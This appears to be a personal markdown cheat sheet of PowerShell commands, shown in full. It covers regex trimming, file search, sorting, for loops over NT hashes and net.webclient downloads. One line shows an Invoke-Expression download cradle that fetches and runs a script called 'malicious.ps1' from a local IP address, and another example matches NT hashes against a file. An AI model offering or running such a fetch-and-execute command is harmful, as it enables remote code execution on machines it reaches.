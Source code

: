 Example on using regex to remove spaces in the init of the line:

    cat .\nomes.txt | foreach-object { %{$_.split(":")[1]}} | foreach-object { %{$_ -replace("^ ","")}}

## locate in powershell

    get-childitem -recurse . file_name.txt

or in cmd

    dir /s

where "." is the path to start searching

## sort

sort-object

## sort -u

get-unique

Example:

cat wordlist.txt | get-unique | sort-object > wordlist_sorted.txt

## for in powershell

	for ($i=0; i -lt $hashes.length; i+=2) {
	... do something
	}
Pratical example:

	for ($i=0; $i -lt $hashes.length; $i+=2) { 
		SELECT-STRING -pattern $hashes[$i].replace('$NT$','') -context 5,0 doc.txt
		write-host $hashes[$i+1]
	}

# webclient
like wget
this get the html from www.google.com

    $webclient = (new-object net.webclient).DownloadString("http://www.google.com")

associated with iex Invoke-expression it is possible to download a malicious file:

	invoke-expression (new-object net.webclient).DownloadString("http://www.192.168.1.253/┼malicious.ps1")
	
# AV in powershell

get-mpthreatdetection 

